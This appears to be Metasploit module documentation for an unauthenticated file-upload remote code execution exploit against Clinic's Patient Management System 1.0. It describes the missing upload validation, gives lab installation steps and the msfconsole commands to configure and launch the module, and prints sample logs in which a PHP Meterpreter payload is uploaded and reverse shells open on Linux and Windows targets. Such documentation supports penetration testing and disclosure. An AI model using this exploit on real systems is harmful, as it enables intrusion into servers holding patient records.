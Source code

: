 ## Vulnerable Application
The Clinic's Patient Management System (CPMS) 1.0 is vulnerable to Unauthenticated Remote Code Execution (RCE) due to a file upload vulnerability.
This exploit allows an attacker to upload arbitrary files, such as a PHP web shell, which can then be executed remotely.
The exploitation occurs because of a misconfiguration in the server, specifically a lack of file validation for uploads and the presence of
a directory listing feature in `/pms/user_images`.
This enables an attacker to upload a PHP file and access it via a publicly accessible URL, executing arbitrary PHP code.

## Verification Steps

### Vulnerable Application Installation Setup
1. Install Clinic's Patient Management System 1.0 on your web server.
   - Download the Web Application from [here](https://www.sourcecodester.com/download-code?nid=15453&title=Clinic%27s+Patient+Management+System+in+PHP%2FPDO+Free+Source+Code)
	- For **Windows**
		- [ ] Open your XAMPP Control Panel and start Apache and MySQL.
		- [ ] Extract the downloaded source code zip file.
		- [ ] Copy the extracted source code folder and paste it into the XAMPP's "htdocs" directory.
		- [ ] Browse the PHPMyAdmin in a browser. i.e. http://localhost/phpmyadmin
		- [ ] Create a new database naming `pms_db`.
		- [ ] Import the provided SQL file. The file is known as pms_db.sql located inside the database folder.
		- [ ] Browse the Clinic Patient Management System in a browser. i.e. http://localhost/pms/

	- For **Linux**
		- [ ] Start Apache2 & MySQL with the command `sudo systemctl start apache2 && sudo systemctl start mysql`
		- [ ] Install PHPMyAdmin with the command `sudo apt install phpmyadmin -y`
		- [ ] Edit `/etc/apache2/apache2.conf` by appending this line: `Include /etc/phpmyadmin/apache.conf`
		- [ ] Extract the downloaded source code zip file into "/var/www/html" directory
		- [ ] Next steps are similar to the ones for Windows, so follow that

2. Start `msfconsole` and load the exploit module:
```bash
   msfconsole
   use exploit/multi/http/clinic_pms_fileupload_rce
```

3. Set the required options:
```bash
   set rport <port>
   set rhost <ip>
   set targeturi /pms
```

4. Check if the target is vulnerable:
```bash
   check
```

   If the target is vulnerable, you will see a message indicating that the target is susceptible to the exploit:
```
   [+] <IP> The target is vulnerable.
```

5. Set up the listener for the exploit:
```bash
   set lport <port>
   set lhost <ip>
```

6. Launch the exploit:
```bash
   exploit
```

7. If successful, you will receive a PHP Meterpreter shell.

## Scenarios

### Clinic's Patient Management System on a Linux Target
```bash
msf exploit(multi/http/clinic_pms_fileupload_rce) > check
[*] Checking if target is vulnerable...
[+] 127.0.0.1:80 - The target is vulnerable.

msf exploit(multi/http/clinic_pms_fileupload_rce) > exploit
[*] Started reverse TCP handler on 192.168.1.104:4444 
[*] Detected OS: linux
[*] Target is Linux/Unix. Using PHP Meterpreter payload with unlink_self.
[*] Uploading PHP Meterpreter payload as zuX7FDRe.php...
[+] Payload uploaded successfully!
[*] Executing the uploaded shell at /pms/user_images/1734340436zuX7FDRe.php...
[*] Sending stage (40004 bytes) to 192.168.1.104
[*] Meterpreter session 1 opened (192.168.1.104:4444 -> 192.168.1.104:48290) at 2024-12-16 14:43:59 +0530

meterpreter > sysinfo
Computer    : kali
OS          : Linux kali 6.11.2-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.11.2-1kali1 (2024-10-15) x86_64
Meterpreter : php/linux
meterpreter >
```

### Clinic's Patient Management System on a Windows Target
```bash
msf exploit(multi/http/clinic_pms_fileupload_rce) > check
[*] Checking if target is vulnerable...
[+] 192.168.1.103:80 - The target is vulnerable.

msf exploit(multi/http/clinic_pms_fileupload_rce) > exploit
[*] Started reverse TCP handler on 192.168.1.104:4444 
[*] Detected OS: winnt
[*] Target is Windows. Using standard PHP Meterpreter payload.
[*] Uploading PHP Meterpreter payload as lgTprVq5.php...
[+] Payload uploaded successfully!
[*] Executing the uploaded shell at /pms/user_images/1734341267lgTprVq5.php...
[*] Sending stage (40004 bytes) to 192.168.1.103
[*] Meterpreter session 2 opened (192.168.1.104:4444 -> 192.168.1.103:60615) at 2024-12-16 14:57:43 +0530

meterpreter > sysinfo
Computer    : DESKTOP-VE9J36K
OS          : Windows NT DESKTOP-VE9J36K 10.0 build 19045 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter >
```

## Options
- `TARGETURI`: (Required) The base path to the Clinic Patient Management System (default: `/pms`).
- `LISTING_DELAY`: (Optional) The time to wait before fetching the directory listing after uploading the shell (default: `2` seconds).
